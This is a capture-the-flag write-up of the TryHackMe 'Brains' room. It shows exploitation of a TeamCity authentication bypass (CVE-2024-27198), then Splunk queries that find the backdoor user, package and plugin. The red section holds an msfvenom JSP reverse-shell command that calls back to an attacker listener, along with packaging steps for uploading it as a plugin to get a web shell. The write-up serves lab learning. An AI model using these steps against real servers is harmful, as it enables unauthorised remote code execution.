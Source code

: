 # Brains

> [Brains](https://tryhackme.com/r/room/brains) - Easy

**Table of Contents**
- [Brains](#brains)
- [RED](#red)
  - [Reconnaissance](#reconnaissance)
    - [TeamCity](#teamcity)
  - [Exploitation](#exploitation)
  - [Escalation](#escalation)
- [BLUE](#blue)
    - [1. What is the name of the backdoor user which was created on the server after exploitation?](#1-what-is-the-name-of-the-backdoor-user-which-was-created-on-the-server-after-exploitation)
    - [2. What is the name of the malicious-looking package installed on the server?](#2-what-is-the-name-of-the-malicious-looking-package-installed-on-the-server)
    - [3. What is the name of the plugin installed on the server after successful exploitation?](#3-what-is-the-name-of-the-plugin-installed-on-the-server-after-successful-exploitation)

# RED

## Reconnaissance
See what is running: `nmap $IP` and `nmap -p 22,80,50000 -sV $IP`
```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
50000/tcp open  ibm-db2?

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Website on port `80` is basically empty.

### TeamCity

Nmap couldn't recognize the service running on port `50000`, after accessing we get into **TeamCity** 
(JetBrains) login page, which is a CI/CD tool, we can see that the version is `2023.11.3`. 

<img src="./red/Cattura3.PNG"/>

Searching for known exploits we can find [CVE-2024-27198](https://nvd.nist.gov/vuln/detail/CVE-2024-27198) 
that is an authentication bypass vulnerability for TeamCity	<= 2023.11.3.
There are two exploits available, discovered the second exploit later, after I had already gained a web shell; the second exploit automates this process.
- [Auth Bypass](https://github.com/yoryio/CVE-2024-27198)
- [Auth Bypass + RCE](https://github.com/W01fh4cker/CVE-2024-27198-RCE)

> IMPORTANT: The following section will cover the manual exploitation to get the Web Shell. 

Using the first exploit we can create the new user:

<img src="./red/Cattura5.PNG"/>

Then I changed the password for `administrator` user under **Administration** -> **Users** -> **administrator**, 
as you can see below; even if this wasn't necessary, this is something I would look out for.

<img src="./red/Cattura9.PNG"/>

## Exploitation

While exploring the **Administration** dashboard we can see, at the bottom of the lateral panel the **Plugins** 
section that looks as follows:

<img src="./red/Cattura17.PNG"/>

I supposed we could upload a jar/jsp reverse shell as a plugin so I created one with `msfvenom`:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.28.226 LPORT=4444 -f raw > shell.jsp
```

I tried to upload it; however, it required a ZIP file; so I added it to a zip folder, still got error...
At this point, I decided to reference the [Plugins Packaging](https://plugins.jetbrains.com/docs/teamcity/plugins-packaging.html) 
documentation for TeamCity, there is what the zip folder should contain:
```
|- server
|    - shell.jar
|      - buildServerResources
|        - shell.jsp
|- teamcity-plugin.xml
```

So the steps to get the Web Shell from the **Plugins** page are: 
1. (*Done*) Create `shell.jsp`: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.28.226 LPORT=4444 -f raw > shell.jsp`

2. Create `teamcity-plugin.xml`:
```
<?xml version="1.0" encoding="UTF-8"?>
<teamcity-plugin xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:noNamespaceSchemaLocation="urn:schemas-jetbrains-com:teamcity-plugin-v1-xml">
    <info>
        <name>shell</name>
        <display-name>shell</display-name>
        <description>a very useful plugin</description>
        <version>1.0</version>
        <vendor>
            <name>deez</name>
            <url>http://jomama.gov</url>
        </vendor>
    </info>
    <deployment use-separate-classloader="true" node-responsibilities-aware="true"/>
</teamcity-plugin>
```

1. Create `shell.jar`: `mkdir buildServerResources && mv shell.jsp buildServerResources/ && zip -r shell.jar buildServerResources/ && rm -fr buildServerResources/`

2. Zip shell folder: `zip -r shell.zip teamcity-plugin.xml shell.jar`

3. `nc -lnvp 4444` on Attacker Machine and we can then access `http://$IP:50000/plugins/shell/shell.jsp` to run the shell.

<img src="./red/Cattura26.PNG"/>

## Escalation

Actually, there isn’t much left to do after gaining the web shell; we can just go into the home and get `flag.txt` content:

<img src="./red/Cattura27.PNG"/>

**BONUS**: even if not required, try to get root. (it couldn't be easier)

# BLUE

> Disclaimer: I've never used Splunk before this CTF.

<img src="./blue/Cattura7.PNG"/>

### 1. What is the name of the backdoor user which was created on the server after exploitation?

There are various ways to create a backdoor on a machine, but the question gives us a hint: it is a new user; so we can create a table with the filter `* source="/var/log/auth.log"`, there, by hovering on "name" field, we can see the user: [REDACTED].

<img src="./blue/Cattura4.PNG"/>

### 2. What is the name of the malicious-looking package installed on the server?

This one took me some time, we know that we want to look for packages installed in the `dpkg.log`, however there are more than 3000 entries. 

To make the search easier I wanted to extract a list of the installed packages, so I asked GPT if there was a way to do it in Splunk, and it came up with the following filter: `source="/var/log/dpkg.log" "install" | sort _time | rex field=_raw "install (?<package_name>\S+)" | table package_name`; the package [REDACTED] looks like something malicious.

<img src="./blue/Cattura10.PNG"/>

<img src="./blue/Cattura11.PNG"/>

### 3. What is the name of the plugin installed on the server after successful exploitation?

To answer this question we need to dig into TeamCity logs since there we can find any activity related to plugin installation; we can create a table using the following filter: `* source="/opt/teamcity/TeamCity/logs/teamcity-activities.log"`

The malicious plugin name is [REDACTED].

<img src="./blue/Cattura2.PNG"/>









